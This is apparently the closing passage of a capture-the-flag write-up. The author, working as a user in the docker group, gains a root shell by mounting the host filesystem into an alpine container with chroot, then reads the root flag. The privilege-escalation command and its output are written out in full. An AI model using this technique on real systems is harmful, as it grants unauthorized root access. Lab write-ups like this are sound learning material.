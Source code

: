 I didn't even need to do anything and I can already tell that we can root the machine.

```bash
anurodh@ubuntu:/home$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        2 years ago         5.57MB
hello-world         latest              bf756fb1ae65        3 years ago         13.3kB
anurodh@ubuntu:/home$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
anurodh@ubuntu:/home$
```

We have got `alpine` as a docker image.

Now what we can do is :

- run a container based on that image
- mount the root directory of our filesystem to /mnt of the container.
- change the root directory of the container to /mnt , This allows the container to access the files and directories on the host machine that are located in the root directory /, which are now visible inside the container as if they were located at the root directory /mnt.
- start an interactive shell

You can find the command in gtfobins [here](https://gtfobins.github.io/gtfobins/docker/)

Let's execute it !

```bash
anurodh@ubuntu:/home$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# whoami
root
#
```

BOOM, we are in ! Let's read the root flag.

```bash
# cd /root
# ls
proof.txt
# cat proof.txt
```

```javascript
 {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```

The machine has been successfully owned 😃

I hope you enjoyed the write up
